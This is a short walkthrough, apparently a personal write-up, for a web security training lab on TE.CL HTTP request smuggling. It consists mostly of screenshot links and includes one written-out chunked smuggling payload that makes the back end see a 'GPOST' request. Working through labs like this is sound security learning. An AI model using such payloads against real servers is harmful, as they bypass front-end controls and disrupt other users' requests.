# HTTP request smuggling, basic TE.CL vulnerability

## This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

## To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

### TE.CL: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.

---

### step 1



### step2

change request method from get to post



### step3

make sure to untick update content-length otherwise it will update automatically



### step4



### step5



### step6



### step7



### step8

payload

```
9d
LPOST / HTTP/1.1
Host: 0af5000b0398135283c14c05001f0024.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

### Note : you can directly use GPOST in place of LPOST



### step9



---

### step 10



---

### step 11



---

### step 12

change LPOST to GPOST




we can remove unnecessary lines from repeter

---

### step 12(another way)


